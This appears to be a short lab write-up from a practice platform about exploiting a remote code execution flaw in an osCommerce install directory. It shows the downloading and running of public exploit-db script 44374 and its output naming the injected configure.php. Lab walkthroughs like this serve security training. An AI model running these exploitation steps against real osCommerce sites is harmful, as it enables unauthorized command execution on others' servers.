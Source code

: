 #### 3. osCommerce

- A version of osCommerce is vulnerable to a remote code execution attack. Exploiting this flaw does not require any valid accounts on the system. A attacker can remotely exploit the system and run arbitrary commands on the system as the web server user.
- Your task is to find this vulnerability and gain remote code exploitation!

----

```
http://uddqjcntsrtl0u4rxnvgfl90w.public1.attackdefenselabs.com/install
```

![](images/3/1.png)

![](images/3/2.png)

![](images/3/3.png)

![](images/3/4.png)

```sh
dev@box:~$ wget https://www.exploit-db.com/download/44374
--2018-12-17 22:24:20--  https://www.exploit-db.com/download/44374
Resolving www.exploit-db.com (www.exploit-db.com)... 192.124.249.8
Connecting to www.exploit-db.com (www.exploit-db.com)|192.124.249.8|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1833 (1.8K) [application/txt]
Saving to: ‘44374’

44374               100%[===================>]   1.79K  --.-KB/s    in 0s

2018-12-17 22:24:20 (180 MB/s) - ‘44374’ saved [1833/1833]

dev@box:~$
dev@box:~$ mv 44374 44374.py
```

```sh
dev@box:~$ python 44374.py
[+] Successfully launched the exploit. Open the following URL to execute your code

http://uddqjcntsrtl0u4rxnvgfl90w.public1.attackdefenselabs.com/install/install/includes/configure.php
dev@box:~$
```

![](images/3/5.png)

----

EOF